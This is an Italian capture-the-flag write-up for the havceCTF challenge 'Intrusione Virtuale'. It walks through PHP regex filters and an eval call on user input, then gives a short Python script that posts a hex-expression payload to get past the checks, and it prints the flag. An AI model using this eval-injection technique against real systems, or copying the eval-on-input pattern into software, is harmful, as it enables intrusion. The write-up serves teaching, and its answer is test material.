 # Intrusione Virtuale

## Descrizione
Salve futuro Hacker di élite! Se pensavi di poter entrare nel nostro esclusivo club segreto senza passare attraverso il fuoco delle nostre Regex difensive, 
ti sei sbagliato di grosso! Abbiamo preparato per te una sfida di registrazione all'avanguardia, e le nostre Regex sono più taglienti di un codice malevolo.

Riuscirai a superare le barriere cibernetiche e a infiltrarti nel nostro sistema con stile da vero hacker? 
Solo coloro che padroneggiano l'arte delle Regex potranno ottenere il titolo di "Intruso Supremo"!

Per ottenere il titolo di 'Intruso Supremo' visita la pagina: [http://www.beginner.havce.it:8080](http://www.beginner.havce.it:8080).

HINT: Utilizzare la rappresentazione esadecimale potrebbe esserti d'aiuto.

*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Come affermato nella descrizione, il primo obiettivo era superare le REGEX.


La prima REGEX controlla se la password contiene caratteri non compresi nella funzione `preg_match`, per esempio lo spazio ( ).
```php
if (!preg_match("/^[a-zA-Z0-9_\-'(),]+$/", $inp, $matches))
```

La seconda REGEX:
- Controlla se la stringa contiene almeno un numero.
- Controlla se la stringa contiene almeno una lettera.
- Controlla se la stringa contiene almeno uno degli underscore ( _ ) o dei trattini ( - ).
```php
if (!(preg_match("/[0-9]/", $inp, $matches) && preg_match("/[a-zA-Z]/", $inp, $matches) && preg_match("/[_-]/", $inp, $matches)))
```

La terza REGEX controlla se la password contiene il numero "1".
```php
if (preg_match("/[1]/", $inp, $matches))
```


Arrivati a questo punto dobbiamo porci un altro obiettivo, quello di superare l'ultimo controllo.
```php
if ($inp != "192014812")
```

Ovviamente visto che la stringa contiene il numero "1", la password "192014812" non è valida.
Osservando il codice però, possiamo osservare che prima di `strcmp` viene eseguita la funzione [`eval`](https://www.php.net/manual/en/function.eval.php).
```php
eval("\$input=$inp;");
```
Grazie al funzionamento interno della funzione `eval`, possiamo usarla a nostro favore, passando come parametro "192014812" codificato, per esempio in esadecimale.
Ricordiamoci che non possiamo passare direttamente il numero codificato, ma possiamo per esempio passare `192014822 - 10`.

```py
# Author: @benjamin

import requests

url = "http://www.beginner.havce.it:8080"

# 192145884 --> numero più grande --> hex(192145884) = 0xb73e9dc
# 192014812 --> numero
# 131072    --> differenza --> hex(131072) = 0x20000

payload = {
    "password": "0xb73e9dc-0x20000"
}

r = requests.post(url, data=payload)

print(r.text)
```

## Flag
havceCTF{m4l3det7o_3va1}
